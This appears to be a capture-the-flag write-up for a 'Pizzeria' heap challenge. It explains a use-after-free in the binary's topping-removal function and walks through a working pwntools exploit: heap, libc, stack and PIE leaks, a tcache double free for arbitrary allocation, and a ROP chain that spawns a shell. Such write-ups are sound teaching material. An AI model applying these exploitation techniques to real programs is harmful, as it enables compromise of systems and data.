 # Pizzeria
```
 ____    _                        _ 
|  _ \  | |      __ _  _ __    __| |
| |_) | | |     / _` || '_ \  / _` |
|  _ <  | |___ | (_| || | | || (_| |
|_| \_\ |_____| \__,_||_| |_| \__,_|

 ____   _                        _        
|  _ \ (_) ____ ____  ___  _ __ (_)  __ _ 
| |_) || ||_  /|_  / / _ \| '__|| | / _` |
|  __/ | | / /  / / |  __/| |   | || (_| |
|_|    |_|/___|/___| \___||_|   |_| \__,_|

Choose one of the following options:
1. Add topping
2. Customize topping
3. Remove topping
4. Verify toppings
5. Bake Pizza
Enter your choice : 
```

This challenge is a pizza-topping picker. It contains a list of allowed toppings:
- Tomato, Onion, Capsicum, Corn, Mushroom, Pineapple, Olives, Double Cheese, Paneer, Chicken

And it lets you add a chosen quantity (up to 63) of any one of these toppings:
```
Enter your choice : 1

Which topping ?
Tomato
How much ?
8
Ok, adding Tomato
```

You can customize your toppings, which lets you edit its contents:
```
Enter your choice : 2

Which one to customize ?
Tomato
Enter new modified topping : San Marzano
New topping added successfully !
```

You can check the contents of a topping:
```
Enter your choice : 4

Which topping to verify ?
Tomato
San Marzano
```

And you can remove toppings:
```
Enter your choice : 3

Which topping to remove ?
Tomato
Tomato removed successfully !
```

Lastly, you can leave:
```
Enter your choice : 5

Baking ....
Here it is : 🍕
```
# How it works
"Toppings" are just strings allocated with `malloc`. Adding means allocating, removing means freeing, customizing means reading and verifying means writing. Leaving frees all the toppings and exits (doesn't return).
Each topping is a `char[]` with size `8*input_size`, and the max `input_size` is 63, so the biggest chunk you can get is 0x200.

Toppings are stored on the stack along with their sizes and with the list of allowed toppings, like this:
```c
int sizes[10];
char* allocated_toppings[10];
char* allowed_toppings[10];
```
# Vulnerability
Here's a simplified view of the `remove_topping` function:
```c
void remove_topping(char** allocated_toppings, char** allowed_toppings, int* sizes) {
    char chosen_topping[15];
    int idx;

    puts("Which topping to remove ?");
    fgets(chosen_topping, 15, stdin);
    chosen_topping[strcspn(chosen_topping, "\n")] = 0;
    idx = get_index(chosen_topping, allowed_toppings);
    free(allocated_toppings[idx]);
    sizes[idx] = 0;
    printf("%s removed successfully !\n", allowed_toppings[idx]);
}
```

It doesn't set `allocated_toppings[idx]` to `NULL`, meaning we can keep using that topping even though it's now a freed chunk. This is a UAF (User After Free).

The binary has all protections turned on and uses libc 2.35.
# Attack
We can allocate a chunk, free it, and then read it to leak the heap via a tcache forward pointer:
```python
io = conn()

malloc(io, toppings[0], 63)
free(io, toppings[0])
heap = u64(read(io, toppings[0]).ljust(8, b'\0')) << 12
aleak("heap", heap)
```

The biggest chunk size we can have is 0x200, which fits in the tcache but not in the fastbin, so if we fill the tcache and free another chunk, it'll end up in the unsorted bin giving us a libc leak:
```python
for i in range(7): malloc(io, toppings[i], 63)
malloc(io, toppings[7], 63)
malloc(io, toppings[8], 63) # barrier to avoid top chunk consolidation
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])

libc.address = u64(read(io, toppings[7]).ljust(8, b'\0')) - (libc.sym.main_arena+96)
aleak("libc", libc.address)
```

We can also do a double free, first filling the tcache, then triggering the double free, and then empty the tcache and allocate again, which will move the chunks from the fastbin to the tcache. This lets us have the same chunk both allocated and freed at the same time, letting us overwrite its tcache forward pointer and achieve arbitrary allocation.

We can actually use this to achieve infinite arbitrary allocations; to understand how here's what the tcache really is (simplified):
```c
struct tcache {
    uint16_t bin_counters[N_BINS];
    void*    first_chunk [N_BINS];
};
```

If you run `bins` via pwndbg to check the tcache, you'll see something like this:
```c
tcachebins
0x60  [  2]: 0x55705a2bf280 —▸ 0x55705a2bf220
0x200 [  7]: 0x55705a2beea0 —▸ 0x55705a2beca0 —▸ 0x55705a2beaa0 —▸ 0x55705a2be8a0 —▸ 0x55705a2be6a0 —▸ 0x55705a2be4a0 —▸ 0x55705a2be2a0 ◂— 0x0
```

That counter in the \[brackets\] and the first pointer (leftmost) are taken straight from that struct. And the first pointer, unlike the next ones, is NOT mangled.
Knowing this, if we allocate on top of this struct we'll be able to modify the counters and pointers by juts editing our topping, so we can just set all the counters to a high number and keep setting the pointer to wherever we wanna go.

I don't need that many allocations, and modifying the counters makes the exploit a little bit more complicated, so i chose to allocate onto the pointer for the 0x200 chunks, since its counter was 7 from when I leaked libc and that's enough allocations to finish the exploit:
```python
addr = (heap + 0x180) ^ ((heap + 0x1000) >> 12)

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
malloc(io, toppings[8], 10)
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])
free(io, toppings[7])

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
edit(io, toppings[7], p64(addr))
malloc(io, toppings[8], 10)
malloc(io, toppings[9], 10)
malloc(io, toppings[9], 10) # now we can modify this chunk with any address we want to allocate
```

Now I allocated a chunk onto `environ` to leak the stack:
```python
edit(io, toppings[9], p64(libc.sym.environ))
malloc(io, toppings[0], 63)
stack = u64(read(io, toppings[0]).ljust(8, b'\0'))
aleak("stack", stack)
```

And onto some pointer to the binary on the stack to leak the binary's base:
```python
pie_ret = stack - 0x188
edit(io, toppings[9], p64(pie_ret))
malloc(io, toppings[0], 63)
exe.address = u64(read(io, toppings[0]).ljust(8, b'\0')) - 0x23db
aleak("exe", exe.address)
```

I used one of the allowed toppings' strings to leak the binary's base, which fucked the next one up (it seems that malloc sets `*(chunk_addr+8)` to 0), so I had to fix it or the binary would crash:
```python
edit(io, toppings[0], flat(exe.address + 0x23db, exe.address + 0x23e2))
```

Both canaries and return pointers are at non-16 aligned addresses, so I couldn't just allocate onto them. I decided to allocate onto the list of allocated toppings to have infinite and truly arbitrary allocations:
```python
edit(io, toppings[9], p64(stack - 0x1d8))
malloc(io, toppings[8], 63)
```

The `bake_pizza` function doesn't actually `return`, it just calls `exit`, so I chose to allocate onto `customize_topping`'s return pointer, that way it would return right after my edit. And i overwrote it with a rop chain:
```python
edit(io, toppings[8], p64(stack-0x220))
rop = ROP([exe, libc])
rop.raw(rop.ret)
rop.system(libc.binsh())
edit(io, toppings[0], rop.chain())
```

And BOOM 💥 we've popped a shell!
Really nice challenge, I enjoyed it very much.
